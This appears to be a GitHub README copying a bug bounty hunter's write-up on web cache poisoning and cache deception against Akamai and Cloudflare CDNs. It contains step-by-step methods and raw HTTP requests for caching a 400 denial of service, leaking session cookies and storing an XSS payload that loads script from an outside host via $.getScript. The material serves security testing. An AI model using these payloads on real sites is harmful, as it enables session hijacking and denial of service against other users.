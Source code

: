 # web-cache-poisoning
https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9
this is the best advice for web cache poisoning 

I will be sharing my “Methodology” from start to end when looking for Cache Issues, then I will share recent Real-Cases Scenarios with their respective Bounties.

It is worth sharing that I don’t use Automated tools to find these issues. In fact the Only Automated Tool I use for my general testing is SQLmap for SQLi.

Methodology

If the application does not have a login functionality, but using Akamai CDN, these are my steps:

Send the first request to Repeater

Check if the server is caching normal requests (you can tell this by the response header “Server-Timing: cdn-cache; desc=HIT”)

Add an Illegal Request Header into the request

If the response was successfully cached, when you open the URL on any browser, you should get a 400 Bad Request

If the Application does have a Login Functionality

Create an account
Check if any sensitive information is disclosed in any page (e.g Session Token)

Send the request to Repeater
Add a Cacheable Extension (.js , .css) at the end of the URL and see if it gives a 200 OK Response

Open the Modified URL using your authenticated Account

Open the Same URL using curl or Private Web Browser Window

If the Token was successfully Cached you should see the Token in the response

If the Application is using Cloudflare CDN

Illegal headers won’t work, and now most Cloudflare Customers are using Cache Deception Armor

I was able to bypass this protection using .avif file which is a really unknown extension file.

#1391635

However, there are some sites that don’t have this protection activated and you can perfectly test for Cache Poisoning/Deception

Real-Cases

Cache Deception To Account Takeover → Bounty = $1,500

Summary:
All cookies (even HTTPonly ones) are being disclosed in https://host.com/app/conversation/1.js

if an authenticated user visits this URL all their cookies will be stored in the cache

An attacker can then extract the cookie and hijack their Session

Note:
Sometimes, if the response is a “404 Not found” Akamai only caches the response for less than 10 seconds, making this harder for the attacker. The attacker needs to be quick in this case, however, if Akamai Detects a 200 Ok Response, the response will last for at least 24 Hours.

Tip & Trick
In some Applications, if you add a Semicolon (;) before the extension it may give you a 200 Ok response

e.g

/xxxx/xxxxxx/;.js

Response

HTTP/2 200 Ok
Cache Poisoning To DoS → Bounty = $1,000

Summary:
In Akamai CDN, If we send a backslash \ as a header, the server will respond with a 400 Bad Request Response

Request:

GET /products/xxx/xxxx/xxx/?test HTTP/2
Host: www.host.com
\: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Response:

HTTP/2 400 Bad Request
Content-Type: text/html;charset=iso-8859-1
Content-Length: 70
Cache-Control: max-age=297
Expires: Thu, 21 Jul 2022 16:17:54 GMT
Date: Thu, 21 Jul 2022 16:12:57 GMT
Server-Timing: cdn-cache; desc=HIT
Server-Timing: edge; dur=32
Server-Timing: origin; dur=147
Strict-Transport-Security: max-age=86400
Ak-Uuid: 0.bc85d817.1658419977.1592c61
This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like

www.host.com/products/*

www.host.com/*

etc..

It becomes a very impactful bug.

Tip & Trick
Akamai has a workaround for this exploit, by making the 400 response to only last 5 seconds in the cache, however, an attacker can send null payloads using intruder in burp, so that the same 400 response gets cached forever


Cache Poisoning To Stored XSS → Bounty = $1,000

Summary:
There is a XSS via then_vis Cookie Parameter

Since the server caches this response, an attacker could be able to save a XSS Payload

There is a strong Filter (and WAF) that blocks most payloads, but since the site is using Jquery, an attacker can use the $.getScript Function to exploit this.

Request

GET /xxxx/xx-xx.otf?triagethiss HTTP/2
Host: www.host.com
Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-xss,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Response

<script>
...
Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
....
</script>
Tip & Trick
Test for XSS on any Request Header, Cookies, Custom Headers, X-Forwared-* Headers
